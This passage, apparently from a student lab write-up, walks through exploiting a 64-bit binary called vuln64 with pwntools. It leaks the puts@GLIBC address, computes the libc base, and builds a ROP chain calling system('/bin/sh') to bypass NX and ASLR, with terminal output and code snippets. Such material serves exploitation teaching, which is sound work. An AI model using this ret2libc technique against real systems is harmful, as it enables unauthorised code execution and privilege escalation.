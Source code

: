 Here we go one step further by capturing the leaked address, storing it in our own variable and logging it to the console. We do this by using the rstrip() and ljust() modifiers to unpack the leaked 8 bytes into the 64-bit integer.


```sh
┌──(student㉿kali)-[~/Desktop/assign2/exploit]
└─$ python3 exploit64.py
[*] '/home/student/Desktop/assign2/app/vuln64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/student/Desktop/assign2/app/vuln64': pid 1429
[*] Loaded 14 cached gadgets for '../app/vuln64'
/home/student/Desktop/assign2/exploit/exploit64.py:29: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  puts = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00")) #store & unpack output. Perform strip
[*] leaked puts@GLIBC found: 0x7f4a519f75f0
[*] Switching to interactive mode
This is an admin tools to run programs with elevated privileges
Press Enter to return...
$  

```

Code used to capture leaked address in terminal and convert from 8bytes to 64-bit

```sh
puts = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00"))
log.info(f"leaked puts@GLIBC found: {hex(puts)}" )
```

## Bypass NX and ASLR

Now that we have the leaked address, we can determine the libc base address (remember that ASLR is changing the address every time the program is executed). By calculating the distance between the leaked GOT puts() address, we can determine the address of the system[] call; which is used to call our shell.

We construct another ROP chain, but this time calling the system() libc function which allows us to then call execute '\bin\sh.'

```sh
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")		
libc.address = puts - libc.symbols["puts"]		
log.info(f"libc base address: {hex(libc.address)}" )

binsh = next(libc.search(b"/bin/sh"))						
rop.call(libc.sym.system, [binsh])
rop.call(libc.sym.exit)
```

Executing our final exploit gives us a shell, however, even though that the vuln64 program has the SUID bit set, we cannot spawn another process of similar privileges due to linux security features where the 'real user ID' is different than the 'effective ID.' 
